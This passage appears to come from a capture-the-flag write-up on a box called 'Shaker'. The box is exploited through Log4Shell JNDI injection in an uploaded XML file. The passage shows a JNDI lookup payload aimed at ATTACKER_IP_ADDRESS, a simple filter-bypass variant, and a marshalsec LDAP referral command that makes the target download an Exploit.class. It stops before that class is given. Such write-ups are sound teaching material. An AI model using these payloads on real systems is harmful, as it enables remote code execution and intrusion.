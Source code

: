 We tried a few things and when we tried the xml content:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<post>
  <author>${jndi:ldap://ATTACKER_IP_ADDRESS:8080/}</author>
  <title>Shaker</title>
  <description>This is not the actual blog post xml, but how meta.</description>
  <tag>writeup</tag>
</post>
```

We got the response:

![Invalid XML response.](/images/shaker/invalid.png)

Ok. There's a filter in place. So, let's try the simplest of filter bypasses:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<post>${${::-j}ndi:ldap://ATTACKER_IP_ADDRESS:8080/}</post>
```

The application hangs, and we get a call on our listener

![The target callback proving it's vulnerable.](/images/shaker/callback.png)

Ok. So we know the target is vulnerable. So we need to set up the remaining steps for exploitation, to try to obtain RCE.

We start a marshalsec (`**https://github.com/mbechler/marshalsec**`) utility to serve as an LDAP referral service.

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://ATTACKER_IP_ADDRESS:8000/#Exploit
```

This outputs “Listening on 0.0.0.0:1389” which mean that if we point our payload to:

```url
ldap://ATTACKER_IP_ADDRESS:1389/Exploit
```

It will then tell the server to download Exploit.class from port 8000 on our attack machine.

So all we need now is an Exploit.class
